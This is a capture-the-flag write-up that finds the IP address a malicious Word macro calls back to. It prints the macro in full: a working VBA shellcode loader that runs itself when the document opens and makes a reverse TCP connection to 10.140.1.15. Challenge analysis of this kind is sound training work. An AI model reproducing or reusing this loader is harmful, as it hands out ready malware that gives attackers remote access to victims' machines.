

# The Phish Tank - 3a
> The suspicious IP address sent another email, which contained a Microsoft Word document attachment. The user who attempted to open this document saw the banner warning that the document contained macros and immediately closed the document and reported it to Snowpoint’s security team.

> The Snowpoint team would like your assistance extracting this Microsoft Word document and analyzing the macros it contains. Based on initial analysis, they believe it is an msfvenom created macro that attempts to make reverse TCP connection back to another computer. Since this is an internal network, they are confident the IP address starts with 10.140.

> What IP address does this macro attempt to connect to?

> Flag format: IP Address. Example: 10.140.1.1

## About the Challenge
We need to do reverse engineering on the Docx file to find the IP address (Sorry, I can't provide you the file, because its a malware)

## How to Solve?
As usual, Im doing static analysis first and then I found there is a VBA script like this:

```
#If VBA7 Then
        Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Bepfnc As Long, ByVal Uedado As Long, ByVal Diyqiili As LongPtr, Nky As Long, ByVal Ivh As Long, Wcuewmiy As Long) As LongPtr
        Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Vtsvctjoj As Long, ByVal Vqzfnupj As Long, ByVal Pifzmlog As Long, ByVal Qgmpqd As Long) As LongPtr
        Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Wloqmb As LongPtr, ByRef Dbhvuzro As Any, ByVal Ohqje As Long) As LongPtr
#Else
        Private Declare Function CreateThread Lib "kernel32" (ByVal Bepfnc As Long, ByVal Uedado As Long, ByVal Diyqiili As Long, Nky As Long, ByVal Ivh As Long, Wcuewmiy As Long) As Long
        Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Vtsvctjoj As Long, ByVal Vqzfnupj As Long, ByVal Pifzmlog As Long, ByVal Qgmpqd As Long) As Long
        Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Wloqmb As Long, ByRef Dbhvuzro As Any, ByVal Ohqje As Long) As Long
#End If
Sub Auto_Open()
        Dim Hrfoyesjd As Long, Dnbtk As Variant, Jag As Long
#If VBA7 Then
        Dim Omvyup As LongPtr, Glyyeamp As LongPtr
#Else
        Dim Omvyup As Long, Glyyeamp As Long
#End If
Dnbtk = Array(252, 232, 143, 0, 0, 0, 96, 137, 229, 49, 210, 100, 139, 82, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 49, 255, 15, 183, 74, 38, 49, 192, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 73, 117, 239, 82, 87, 139, 82, 16, 139, 66, 60, 1, 208, 139, 64, 120, 133, 192, 116, 76, 1, 208, 139, 72, 24, 80, 139, 88, 32, 1, 211, 133, 201, 116, 60, 73, 49, _
255, 139, 52, 139, 1, 214, 49, 192, 193, 207, 13, 172, 1, 199, 56, 224, 117, 244, 3, 125, 248, 59, 125, 36, 117, 224, 88, 139, 88, 36, 1, 211, 102, 139, 12, 75, 139, 88, 28, 1, 211, 139, 4, 139, 1, 208, 137, 68, 36, 36, 91, 91, 97, 89, 90, 81, 255, 224, 88, 95, 90, 139, 18, 233, 128, 255, 255, 255, 93, 104, 51, 50, 0, 0, 104, 119, 115, 50, 95, 84, _
104, 76, 119, 38, 7, 137, 232, 255, 208, 184, 144, 1, 0, 0, 41, 196, 84, 80, 104, 41, 128, 107, 0, 255, 213, 106, 10, 104, 10, 140, 1, 15, 104, 2, 0, 106, 218, 137, 230, 80, 80, 80, 80, 64, 80, 64, 80, 104, 234, 15, 223, 224, 255, 213, 151, 106, 16, 86, 87, 104, 153, 165, 116, 97, 255, 213, 133, 192, 116, 10, 255, 78, 8, 117, 236, 232, 103, 0, 0, 0, _
106, 0, 106, 4, 86, 87, 104, 2, 217, 200, 95, 255, 213, 131, 248, 0, 126, 54, 139, 54, 106, 64, 104, 0, 16, 0, 0, 86, 106, 0, 104, 88, 164, 83, 229, 255, 213, 147, 83, 106, 0, 86, 83, 87, 104, 2, 217, 200, 95, 255, 213, 131, 248, 0, 125, 40, 88, 104, 0, 64, 0, 0, 106, 0, 80, 104, 11, 47, 15, 48, 255, 213, 87, 104, 117, 110, 77, 97, 255, 213, _
94, 94, 255, 12, 36, 15, 133, 112, 255, 255, 255, 233, 155, 255, 255, 255, 1, 195, 41, 198, 117, 193, 195, 187, 240, 181, 162, 86, 106, 0, 83, 255, 213))

        Omvyup = VirtualAlloc(0, UBound(Dnbtk), &H1000, &H40)
        For Jag = LBound(Dnbtk) To UBound(Dnbtk)
                Hrfoyesjd = Dnbtk(Jag)
                Glyyeamp = RtlMoveMemory(Omvyup + Jag, Hrfoyesjd, 1)
        Next Jag
        Glyyeamp = CreateThread(0, 0, Omvyup, 0, 0, 0)
End Sub
Sub AutoOpen()
        Auto_Open
End Sub
Sub Workbook_Open()
        Auto_Open
End Sub
```

As you can see the VBA script was obfuscated and don't know how to deobfuscate it. So I decided to find the IP address using dynamic analysis approach. Im using `any.run` website to do dynamic analysis and luckily I got the IP address by checking `Connection` tabs

https://app.any.run/tasks/d82af4a0-af76-44d2-a157-56dc023eb0d7/



```
10.140.1.15
```